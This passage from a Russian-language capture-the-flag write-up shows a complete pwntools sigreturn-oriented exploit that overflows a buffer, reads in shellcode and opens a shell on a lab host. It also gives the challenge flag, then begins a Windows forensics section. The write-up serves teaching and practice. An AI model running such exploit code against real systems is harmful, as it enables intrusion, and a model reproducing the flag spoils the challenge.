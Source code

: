 Ну и соответственно сплойт под него тоже подходит, он довольно хорошо описан в статье:

The attack overview:

1. cause BOF
2. put 0xf (syscall number of `rt_sigreturn`) into rax
3. return to `0x41015`, and cause sigreturn.
4. inject shellcode into `0x41017`
5. execute shellcode
6. get the shell!

```bash
from pwn import *
elf=context.binary=ELF("./task")
p=remote("192.168.12.13", 1555)

flame=SigreturnFrame()
flame.rax=0x0
flame.rdi=0x0
flame.rsi=0x00041017
flame.rdx=0x500
flame.rip=0x00041015
flame.rsp=0x00041100

payload=p64(0)
payload+=p64(0x00041018) # pop rax; ret;
payload+=p64(0xf)
payload+=p64(0x00041015) # syscall
payload+=bytes(flame)

p.sendline(payload)
shellcode=asm(shellcraft.sh())
p.sendline(shellcode)
p.interactive()
```

Запускаем сплойт, получаем шелл, `cat flag` :

FLAG: nto{sropsropsroplazy}





# Windows Forensics

## Каким образом вредоносное ПО попало на компьютер пользователя?

Из легенды узнаем, что пользователь скачал ВПО из рассылки в почте. Воспользуемся программой Autopsy и дампом почты, чтобы обнаружить, что пользователь скачал следующий архив:

![https://i.imgur.com/rkKhna0.png](https://i.imgur.com/rkKhna0.png)
